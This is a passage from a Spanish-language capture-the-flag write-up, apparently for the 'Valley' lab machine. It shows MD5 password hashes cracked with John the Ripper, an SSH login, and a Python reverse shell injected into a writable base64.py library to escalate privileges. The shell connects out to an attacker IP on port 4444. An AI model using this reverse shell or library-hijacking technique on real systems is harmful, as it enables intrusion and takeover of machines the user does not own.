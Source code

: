 teniendo en cuenta que la opcion mas sugerida es encriptacion MD5 utilizaremos ese formato para crackear los hashes.

al crackear los dos hashes nos encontramos con el usuario `valley` y la contrasena `liberty123`

```bash
─(zikuta㉿zikuta)-[~/Desktop/valleyAuthenticator]
└─$ echo "e6722920bab2326f8217e4bf6b1b58ac" > hash.txt 
                                                                     
┌──(zikuta㉿zikuta)-[~/Desktop/valleyAuthenticator]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
liberty123       (?)     
1g 0:00:00:00 DONE (2025-07-30 20:38) 33.33g/s 7257Kp/s 7257Kc/s 7257KC/s lovein1..liberty12
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
                                                                     
┌──(zikuta㉿zikuta)-[~/Desktop/valleyAuthenticator]
└─$ rm hash.txt
                                                                     
┌──(zikuta㉿zikuta)-[~/Desktop/valleyAuthenticator]
└─$ echo "dd2921cc76ee3abfd2beb60709056cfb" > hash.txt
                                                                     
┌──(zikuta㉿zikuta)-[~/Desktop/valleyAuthenticator]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
valley           (?)     
1g 0:00:00:00 DONE (2025-07-30 20:39) 50.00g/s 345600p/s 345600c/s 345600C/s oblivion..better
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

asi que intentamos iniciar sesion por ssh con ese usuario y contrasena y PUM contrasena exitosa

Como usuario  `valley`, procedimos a modificar el script `photosEncrypt.py`, pero descubrimos que solo el usuario `root` tiene permisos de escritura sobre él. 

Al analizar el código, notamos que importa la librería `base64`, por lo que decidimos verificar si teníamos permisos para modificar dicha librería.

Efectivamente, pudimos editar el archivo `base64.py` y agregamos una reverse shell con el siguiente código:

```bash
import socket,os,pty

def reverse_shell():
    s=socket.socket()
    s.connect(("10.23.120.245", 4444)) 
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/bash")

reverse_shell()
```
